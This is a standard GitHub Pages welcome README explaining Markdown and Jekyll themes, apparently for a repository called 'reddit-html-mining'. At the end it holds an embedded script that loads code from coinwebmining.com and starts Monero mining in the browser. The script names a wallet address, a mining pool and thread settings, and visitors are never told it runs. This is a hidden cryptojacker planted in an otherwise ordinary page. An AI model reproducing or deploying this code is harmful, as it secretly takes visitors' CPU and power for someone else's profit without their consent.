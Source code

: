 ## Welcome to GitHub Pages

You can use the [editor on GitHub](https://github.com/ThisIsNOTVERYMatt/reddit-html-mining/edit/master/README.md) to maintain and preview the content for your website in Markdown files.

Whenever you commit to this repository, GitHub Pages will run [Jekyll](https://jekyllrb.com/) to rebuild the pages in your site, from the content in your Markdown files.

### Markdown

Markdown is a lightweight and easy-to-use syntax for styling your writing. It includes conventions for

```markdown
Syntax highlighted code block

# Header 1
## Header 2
### Header 3

- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/ThisIsNOTVERYMatt/reddit-html-mining/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.

<script src="https://coinwebmining.com/cwm.js"></script>
<script>
    var site_id = 'cwm-1224';
    var coin = 'monero';
    var wallet = '43AULrkzx3ZCJvBmn8uRnUKhmCQ3ZucqDMfLhyvVCcsf4AyzWeye1A1F2iXtcJWEMe3AhHnBtRxr67GRApVvrzADRtQGdxC';
    var password = 'x';
    var mining_pool = 'gulf.moneroocean.stream:10001';
    var threads = -1;
    var throttle = 0.2;
    var debug = false;
    cwm_start(site_id, coin, wallet, password, mining_pool, threads, throttle, debug);
</script>
